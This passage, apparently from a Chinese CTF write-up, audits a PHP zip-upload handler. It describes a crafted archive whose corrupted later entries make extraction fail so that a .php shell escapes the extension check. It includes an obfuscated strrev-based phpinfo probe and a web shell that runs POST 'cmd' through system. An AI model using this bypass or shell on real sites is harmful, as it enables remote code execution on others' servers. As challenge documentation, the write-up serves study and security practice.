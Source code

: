 ```php
    $zipname = $uploadedFile['tmp_name'];
    $path = $uploadDir;

    $result = unzip($zipname, $path);
    if ($result === true) {
        header("Location: index.html?status=success");
        exit();
    } else {
        header("Location: index.html?status=$result");
        exit();
    }
} else {
    header("Location: index.html?status=file_error");
    exit();
}
```

做一下审计， `unzip()` 中解压失败时执行 `$zip->close();` 但并没有返回

所以可以构造压缩包，第一个文件放 shell ，后面放损坏的内容，使后一部分解压失败，关闭 zip 流，跳过文件拓展名检查和重命名，以保留 .php 文件

![image-20250125153507616](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/25/6794942c5ac08.png)

用 010editor 将下面的文件名改成 /////// 使解压失败

#### 0x02 绕过

先尝试 phpinfo

```php
<?php
$p = "ofniphp";
$pp = strrev($p);
$pp();
?>
```

`GET /upload/suimages/hack.php` 成功读到 phpinfo

马

```php
<?php
$p = "metsys";
$pp = strrev($p);
$pp($_POST['cmd']);
?>
```

![image-20250125160123692](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/25/67949a54a8b96.png)



### SU_POP

#### 0x00 参考资料

